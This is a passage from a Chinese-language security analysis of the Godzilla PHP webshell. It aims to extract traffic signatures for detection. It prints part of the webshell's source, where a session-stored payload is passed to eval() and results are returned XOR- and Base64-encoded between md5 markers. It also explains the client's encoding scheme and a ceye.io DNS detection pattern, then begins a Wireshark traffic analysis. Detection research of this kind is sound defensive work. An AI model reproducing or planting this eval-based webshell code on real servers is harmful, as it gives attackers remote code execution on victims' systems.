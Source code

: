 ```
        if (isset($_SESSION[$V]))`{`
            $L=$_SESSION[$V];
            $A=explode('|',$L);
            class C`{`public function nvoke($p) `{`eval($p."");`}``}`
            $R=new C();
            $R-&gt;nvoke($A[0]);
            echo substr(md5($P.$T),0,16);
            echo Q(E(@run($F),$T));
            echo substr(md5($P.$T),16);
        `}`else`{`
            $_SESSION[$V]=$F;
        `}`
    `}`

```

其中比较核心的地方有两处，第一处是进行异或加密和解密的函数`E($D,$K)`，第二处是嵌套的两个`if`对哥斯拉客户端上传的代码做执行并得到结果。根据`$F=O(E(O($_POST[$P]),$T));`这行做逆向判断，可以得到哥斯拉客户端上传代码时的编码加密过程：

**原始代码 -&gt; Base64编码 -&gt; E函数进行异或加密 -&gt; 再Base64编码**

为了使客户端分离出结果，三个`echo`利用md5值作为分离标志，将得到的代码执行结果进行拼接：

**md5($P.$T)前16位**<br>**结果 -&gt; E函数进行异或加密 -&gt; Base64编码**<br>**md5($P.$T)后16位**

另外，根据`$_SESSION[$V]=$F;`这行判断，客户端首次连接shell时会在`$_SESSION`中保存一段代码，叫payload。结合后面突然出现的函数`run`，猜测这个payload在后续shell连接过程中可能会被调用。整个shell的运行原理到这里基本就能明确了，可以用下面的流程图来总结：

[![](https://p3.ssl.qhimg.com/t01689dd7c4dc8493d2.png)](https://p3.ssl.qhimg.com/t01689dd7c4dc8493d2.png)



## 特征提取

通常，流量层面对恶意行为进行检测，倾向于筛选出一些强特征、固定特征。例如检测使用ceye.io进行的OOB通信，只需要去匹配流量中包含`.+\.ceye\.io`的DNS请求，通过四元组即可判断受害主机和攻击者IP，这里`ceye.io`关键字就是固定特征。固定特征具有一致性、不易改变的特点，就好似与生俱来的特点。

### <a class="reference-link" name="%E6%8C%96%E6%8E%98%E5%93%A5%E6%96%AF%E6%8B%89%E5%BC%BA%E7%89%B9%E5%BE%81"></a>挖掘哥斯拉强特征

如何寻找哥斯拉的流量特征呢？最先想到的是先前冰蝎的捕获经验，即在shell的建连初期出现的强特征。至于HTTP头部的UA等特征，由于其易被改变，因此暂不考虑。开启Wireshark设置过滤条件，重新打开哥斯拉客户端并添加生成的shell：

[![](https://p2.ssl.qhimg.com/t01c0c0ca6affe8f774.gif)](https://p2.ssl.qhimg.com/t01c0c0ca6affe8f774.gif)

此时未出现任何流量。继续右键进入，哥斯拉会返回目标的相关信息，Wireshark瞬间出现3个http包：

[![](https://p4.ssl.qhimg.com/t01cf78b2c018cf3df3.gif)](https://p4.ssl.qhimg.com/t01cf78b2c018cf3df3.gif)

跟踪http流，发现3个http包处在同一TCP中，说明哥斯拉使用了TCP长连接，这对流量特征分析比较有利。对这3个http包逐个分析一下。

从shell的代码已知，客户端首次连接shell会上传一段代码payload，以备后续操作调用。查看其请求，发现内容长度居然超过23000字节。同时，http响应内容为空：
